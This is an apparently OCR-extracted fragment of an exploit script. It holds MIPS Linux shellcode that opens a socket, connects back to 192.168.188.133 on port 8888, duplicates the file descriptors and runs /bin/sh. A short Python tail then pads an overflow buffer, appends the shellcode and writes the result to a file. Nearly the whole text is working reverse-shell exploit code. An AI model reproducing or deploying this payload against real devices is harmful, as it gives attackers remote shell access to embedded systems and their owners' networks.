 ```
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x85BCA8C0 # IP: 192.168.188.133
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')
payload += b'a'*0x18
payload += shellcode
 
fd = open("payload", "wb")
fd.write(payload)
fd.close()
```
